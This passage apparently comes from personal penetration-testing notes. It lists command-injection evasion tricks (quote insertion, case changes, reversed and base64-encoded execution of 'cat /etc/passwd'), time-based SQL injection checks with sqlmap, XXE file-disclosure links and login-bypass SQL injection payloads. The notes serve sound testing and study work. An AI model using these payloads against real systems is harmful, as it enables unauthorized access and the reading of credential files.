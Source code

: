 | Code                                                         | Description                         |
| ------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                      |                                     |
| `'` or `"` in between characters (whoa'm'oi)                 | Total must be even                  |
| `$@` or `\`                                                  | Linux only                          |
| **Case Manipulation**                                        |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| **Reversed Commands**                                        |                                     |
| `echo 'whoami' \| rev`                                       | Reverse a string                    |
| `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| **Encoded Commands**                                         |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |



## SQLi
If there is user input being sent somewhere, but no data is being returned, test the following:
1. `' OR SLEEP(5)-- -`
	- Should be a 5 second delay if vulnerable
2. If you find a delay, intercept request, copy and put into a file, and submit into sqlmap



## XXE (If XML data is being supplied)
### LFI: [[1. Local File Disclosure]]
### Advanced File Disclosure: [[2. Advanced File Disclosure]]
### Blind Data Exfiltration: [[3. Blind Data Exfiltration]]


# Login Attacks
## SQLi
1. Test for SQLi with the following in the `username` field:
	- `admin'`
	- `admin' or '1'='1';-- -`
	- `admin')-- -`
	- `' or 1=1 limit 1 --` (this is always true and will log you in as the first user in the database)
	- `admin' order by 1-- -` (increase the `1` up to `20`, testing one-by-one)
	- `admin' UNION select 1,2,3-- -` (increase the number of columns up until you reach `20`)
